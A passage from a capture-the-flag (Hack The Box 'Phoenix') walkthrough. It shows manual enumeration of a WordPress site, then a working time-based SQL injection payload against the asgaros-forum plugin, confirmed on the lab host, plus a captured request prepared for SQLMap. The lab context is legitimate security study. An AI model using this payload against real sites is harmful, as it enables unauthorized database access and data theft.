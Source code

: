 ## Port 443 - HTTPS
From the nmap scan I can see that it is running Wordpress v5.9. Lets run `wpscan` to enumerate some more:
```bash
$ wpscan --url https://phoenix.htb/ --enumerate ap,at,cb,dbe,u --disable-tls-checks
```

Bad decision! I got IP blocked!
![[phoenix/images/image1.png]]

Lets manually enumerate the website.
Looking at the home page source code I could spot some of the plugins metadata. One of them, asgaros-forum, even leak the the version installed:
![[phoenix/images/image2.png]]

Searched for known vulnerabilities and found an unauthenticated [SQL injection](https://wpscan.com/vulnerability/36cc5151-1d5e-4874-bcec-3b6326235db1) for this plugin. To exploit is very easy, the syntax looks like this:
```
?subscribe_topic=1%20union%20select%201%20and%20sleep(10)
```

### Asgaros Forum SQL injection - WP plugin
From the main page we can access the forum at https://phoenix.htb/forum/.
Browsing to "[Members](https://phoenix.htb/forum/members/)" tab we get a list of possible users:
```
Phoenix - Administrator
Jack Thomson - User
Jane Logan - User
john - User
John Smith - User
```

We can test the SQL injection vulnerability sending the following GET request:
```
https://phoenix.htb/forum/?subscribe_topic=1%20union%20select%201%20and%20sleep(10)
```
And the browser received a response back from the server 10s later, confirming the SQL injection.

I will use SQLMap to automate the exploitation. First, I intercepted a request to the vulnerable URL with Burp:
```
GET /forum/?subscribe_topic=1 HTTP/2
Host: phoenix.htb
Cookie: asgarosforum_unique_id=6235797261801; asgarosforum_unread_cleared=1000-01-01%2000%3A00%3A00; asgarosforum_unread_exclude=a%3A1%3A%7Bi%3A1%3Bi%3A1%3B%7D
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```
